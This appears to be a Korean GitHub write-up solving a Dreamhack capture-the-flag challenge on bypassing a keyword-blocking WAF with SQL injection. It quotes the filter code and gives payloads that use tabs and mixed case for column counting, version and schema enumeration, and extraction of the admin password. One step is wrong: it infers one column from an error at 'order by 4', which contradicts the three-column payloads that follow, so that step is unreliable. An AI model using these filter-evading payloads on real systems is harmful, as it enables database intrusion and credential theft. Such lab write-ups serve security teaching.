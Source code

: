 ## Dreamhack_by_pass_sqli
Dreamhack 해커들의 놀이터 SQL Injection bypass WAF 풀기

## Black Box 방식으로 공격해보기
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a19047d6-ca96-4e23-b911-396ea5c9dca9)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a9db8751-a5ce-47e8-8a17-a7e4846b26d1)

- sql 문법이 막히는 것을 보아 필터링이 되는 것 같다

## 코드 분석하기.

```
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
```
위 코드를 보면 sql 특적 키워드들이 값으로 들어오면 필터링 돼서 WAF로 인해 막힌다는 메시지가 출력된다.
그렇다면 소문자를 대문자로 바꿔 컬럼 갯수를 알아내는 공격을 해보자.

- 컬럼 수 확인하기.
```
'	oRder	by	1#
'	oRder	by	2#
'	oRder	by	3#
'	oRder	by	4#
```
 ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/cc963842-806d-4f2f-b366-b01a3cb4df73)

 ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/148149c7-dd6b-4643-aa78-4152a8b4c720)

 ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/9a198866-a0f5-4892-af3f-c4caf7078997)
 
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/24837302-278d-4e81-b9c6-c0e31cdbfc7f) ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/3ad6428f-4124-4a14-a4bc-2cfe66958196)

'	oRder	by	4# 에서 에러가 발생하는것으로 보아 컬럼의 갯수는 1개이다.

## 컬럼특성 및 DB version 확인하기.
```
'	Union	Select	@@version,null,null#
'	Union	Select	null,@@version,null#
```
- 위 구문으로 2번째 컬럼이 문자열이라는 것을 알아 냈다. 또한 DB 버전도 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/62084023-65c8-4edd-8eff-d695daeeef5b)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/5a292eba-c7ad-41fb-949f-ce037602a4bd)

## 컬럼명 확인하기
- 테이블 명이 user라고 나와 있으므로 그걸 이용해 데이터베이스 information_schema.columns 테이블에 있는 값으로 user테이블의 컬럼명을 알아보자.
```
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	1#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	2#
```
- 위 sqli 공격으로 3개의 컬럼명을 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/0fc9cc40-d60c-4c2d-80c5-1185d978a839)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/b55d4c81-6948-478a-8c2d-830ca2b503fc)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/c6a24639-6871-44a6-86c9-98f0b2065d2a)

## flag 값 확인하기.
- 우리는 컬럼명, 컬럼 갯수를 알아냈으므로 그 정보를 이용해 flag 값을 알아낼것이다. flag는 uid가 admin인 행의 upw값이다.
```
'	Union	Select	null,upw,null	From	user	Where	uid=concat('ad','min')#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/285d849b-11e1-46b6-af6c-83abea29c17b)



